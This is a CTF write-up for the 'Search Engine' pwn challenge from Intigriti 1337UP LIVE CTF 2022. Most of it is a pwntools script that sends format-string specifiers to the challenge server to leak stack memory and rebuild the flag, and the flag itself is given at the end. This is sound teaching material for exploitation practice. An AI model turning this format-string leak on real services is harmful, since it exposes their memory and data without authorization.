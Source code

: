 ```yaml
---
name: Search Engine (2022)
event: Intigriti 1337UP LIVE CTF 2022
category: Pwn
description: Writeup for Search Engine (Pwn) - Intigriti 1337UP LIVE CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Search Engine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/BekVaShD9HE/0.jpg)](https://youtu.be/BekVaShD9HE "Intigriti 1337UP LIVE CTF 2022: Search Engine")

## Challenge Description

> In an attempt to block third party software, we've been using our very own search engine! It doesn't yet have every feature, but at least it's very secure!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'info'

flag = ''

# Let's fuzz x values
for i in range(12, 16):
    try:
        # Connect to server
        io = remote('searchengine.ctf.intigriti.io', 1337, level='warn')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Receive the response (leaked address followed by '.' in this case)
        io.recvuntil(b'No result found. You searched for - ')
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

# Print and close
info(flag)
```
{% endcode %}

Flag: `1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`
